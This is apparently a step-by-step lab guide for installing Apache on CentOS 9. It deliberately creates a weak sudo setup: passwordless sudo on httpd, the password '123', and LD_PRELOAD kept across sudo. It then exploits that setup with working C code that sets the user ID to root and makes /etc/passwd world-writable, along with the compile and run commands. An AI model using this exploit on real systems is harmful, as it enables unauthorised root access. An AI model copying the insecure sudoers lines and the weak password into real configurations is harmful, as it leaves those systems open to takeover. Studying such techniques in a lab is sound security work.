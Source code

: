 # Apache Setup and Privilege Escalation on CentOS 9

## Step 1: Install Apache
```
yum install httpd -y
```

## Step 2: Start and Enable Apache Service
```
systemctl start httpd
systemctl enable httpd
```

## Step 3: Create a User for Apache Management
```
useradd -m site-admin -s /bin/bash
```

## Step 4: Grant sudo Permissions to site-admin

   Edit the sudoers file:
```
nano /etc/sudoers
```
  Add the following line:
```
site-admin  ALL=(ALL)   NOPASSWD: /usr/sbin/httpd
```

   ## Step 5: Set Password Using chpasswd
```
echo 'site-admin:123' | chpasswd
```
## Step 6: Modify sudoers File for LD_PRELOAD
  Add this line to /etc/sudoers:
```
Defaults env_keep += "LD_PRELOAD"
```
 ## Step 7: SSH into the Machine and Test Apache
  ```
  ssh site-admin@192.168.1.10
  ```
  
  Run Apache commands:
```
sudo /usr/sbin/httpd
sudo /usr/sbin/httpd -v
sudo /usr/sbin/httpd -T
```

## Step 8: Privilege Escalation via LD_PRELOAD
### Create a Malicious Shared Object (evil.c)
```
 #include <stdio.h>
 #include <stdlib.h>

void _init() {
        setuid(0);
        setgid(0);
        system("chmod 777 /etc/passwd");
}
```

### Compile and Generate Shared Object
```
gcc -fPIC -shared -o /tmp/env.so /tmp/evil.c -nostartfiles
```
### Execute the Exploit
```
sudo LD_PRELOAD=/tmp/env.so /usr/sbin/httpd
```
## Step 9: Locate Shared Object Files
```
find /lib /lib64 /usr/lib /usr/lib64 -name "*.so*"
```


This guide covers Apache installation, user management, sudo permissions, and an LD_PRELOAD privilege escalation exploit on CentOS 9.
